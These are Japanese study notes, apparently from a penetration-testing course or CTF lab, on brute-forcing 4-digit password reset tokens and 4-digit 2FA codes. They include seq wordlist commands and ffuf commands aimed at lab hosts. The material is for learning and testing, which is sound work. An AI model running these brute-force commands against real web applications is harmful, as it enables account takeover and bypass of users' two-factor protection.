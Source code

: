 ### 脆弱なリセットトークンの特定
- 通常、ターゲットのウェブアプリケーションでアカウントを作成し、パスワードリセットトークンを要求してから、それを分析する必要がある
- ![](https://i.imgur.com/yoxDtlZ.png)
- この例では、以下のパスワードリセットEメールを受け取ったと仮定する
```sh
1. Click on the following link to reset your password: Click 2. If the above link doesn't work, copy and paste the following URL into your web browser: http://weak_reset.htb/reset_password.php?token=7351
```
4桁のトークンの組み合わせだったら、10000通りしかない
パスワードリセットを要求し、そのトークンをブルートフォースすることで、ユーザーのアカウントを乗っ取ることができる

### 脆弱なリセットトークンへの攻撃
まず、考えられるトークンのリストを作成する
0-9999までのリストの例
- `-w` フラグは、すべての数字をゼロで埋めて同じ長さにする
```sh
seq -w 0 9999 > tokens.txt
```

- 現在パスワードをリセット中のユーザーがいると仮定して、すべてのアクティブなリセットトークンをブルートフォースすることができる
- 特定のユーザーをターゲットにする場合は、まずそのユーザーのパスワードリセットを要求してリセットトークンを作成する必要がある
- その後、`ffuf` でワードリストを指定し、すべてのアクティブなリセットトークンをブルートフォースする
```shell-session
ffuf -w ./tokens.txt -u http://weak_reset.htb/reset_password.php?token=FUZZ -fr "The provided token is invalid"
```

## 2要素認証へのブルートフォース
- 通常、これは知識ベース認証（パスワード）と所有ベース認証（2FAデバイス）を組み合わせることで実現される
- 2FAは以前に説明した3つの主要な認証カテゴリのいずれか2つを組み合わせることでも実現できる
	- 2FAは攻撃者がユーザーの認証情報を入手できたとしても、アカウントにアクセスすることを著しく困難になる

### 攻撃
- 最も一般的な2FAの実装の1つ
	- ユーザーのパスワード
	- 認証アプリまたはSMSを介してユーザーのスマートフォンに提供される時間ベースワンタイムパスワード（TOTP）
- これらのTOTPは通常、数字のみで構成されているため、長さが不十分
	- ウェブアプリケーションが誤ったTOTPの連続送信に対する対策を実装していない場合、**推測される可能性**がある

CTFで、`admin : admin`でログインできた時に、2要素認証があることに気づいた
- しかし、ウェブアプリケーションのメッセージを見ると、TOTPが4桁のコードであることがわかる
- 可能な組み合わせは**10,000通り**しかないため、すべての可能なコードを簡単に試すことができる

4桁のセッショントークンのリストを作る
```sh
seq -w 0 9999 > tokens.txt
```

ffufで、エラーメッセージを除外してブルートフォースすることで、セッショントークンがわか離、2要素認証をパスすることができる
- 多くの結果が出てくる場合があるが、正しいTOTPを提供した後、セッションが2FAチェックを正常に通過したため
	- なので、一番最初のものが正しいTOTPだとわかる
```sh
ffuf -w ./tokens.txt -u http://bf_2fa.htb/2fa.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -b "PHPSESSID=fpfcm5b8dh1ibfa7idg0he7l93" -d "otp=FUZZ" -fr "Invalid 2FA Code"
```
